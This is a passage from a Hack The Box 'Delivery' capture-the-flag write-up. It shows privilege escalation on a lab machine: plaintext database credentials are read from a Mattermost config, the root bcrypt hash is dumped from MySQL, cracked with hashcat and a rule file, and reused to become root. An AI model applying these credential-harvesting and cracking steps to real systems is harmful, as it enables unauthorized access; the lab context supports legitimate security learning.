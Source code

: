 Now Since We got user a wise man known as ippsec has passed on the knowledge to do a sudo -i and a sudo -l every time you get a user so lets to exactly that( `plus this is ippsec's box` ). and sadly we get nothing
```bash
maildeliverer@Delivery:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for maildeliverer: 
Sorry, user maildeliverer may not run sudo on Delivery.
maildeliverer@Delivery:~$ sudo -i
[sudo] password for maildeliverer: 
maildeliverer is not in the sudoers file.  This incident will be reported.
maildeliverer@Delivery:~$ 
maildeliverer@Delivery:~$ 
```
## Sql Enumeration and Exploitation
ok but in the chat we found out that a password hash may be a varient so lets look for a hash. after looking around in the box we see that there a mysql server running and that there is a mattermost config file so lets look through that after looking we find some sql config AND SOME CREDS!!!
```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep sql -B5 -A5
        "DesktopMinVersion": "",
        "IosLatestVersion": "",
        "IosMinVersion": ""
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
maildeliverer@Delivery:/opt/mattermost/config$ 

```
ok so now lets start looking through the data base... after some looking i can see there is a Users Table so lets see if there is a root hash there... AND THERE IS!!!
```sql
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -D mattermost -p
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 65
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> SELECT username, password FROM Users WHERE username = 'root';
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
+----------+--------------------------------------------------------------+
1 row in set (0.001 sec)

MariaDB [mattermost]> 

```
## Cracking With Hashcat
ok so have a hash now lets use that hash with the rule `PleaseSubscribe!` But first we need to find the hash type, i personally like to use hashid so fire it up and lets get to pwning. ok so we get that this is a bcrypt type now that we know lets get to pwning...
```shell
┌─[user@parrot-virtual]─[~]
└──╼ $hashid
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
Also we need some rule so lets just get some, I generally use this one /usr/share/hashcat/rules/best64.rule which is normally on your computer
so lets crack, `Also remember to put the hash into a file called hash and put "PleaseSubscribe!" into a file called wordlist.txt`
```bash
hashcat -a 0 -m 3200 hash.txt wordlist.txt -r /usr/share/hashcat/rules/best64.rule -o cracked.txt -w 3 -O --show
```
and your output should be
```bash
┌─[user@parrot-virtual]─[~/HackTheBox/Delivery/cracking]
└──╼ $hashcat -a 0 -m 3200 hash.txt wordlist.txt -r /usr/share/hashcat/rules/best64.rule -o cracked.txt -w 3 -O --show
┌─[user@parrot-virtual]─[~/HackTheBox/Delivery/cracking]
└──╼ $cat cracked.txt
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
┌─[user@parrot-virtual]─[~/HackTheBox/Delivery/cracking]
└──╼ $
```
And now we have cracked the password for the MatterMost root accountbut lets just hope its the same for the system account...  and YES IT IS
```bash
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# cd ~
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# 
```
![[Pasted image 20210405154924.png]]
### Thank You For Reading And Remeber `Dont Hate The Hacker Hate The Code`
## BYE!!!
## Author: Aniket Kokate
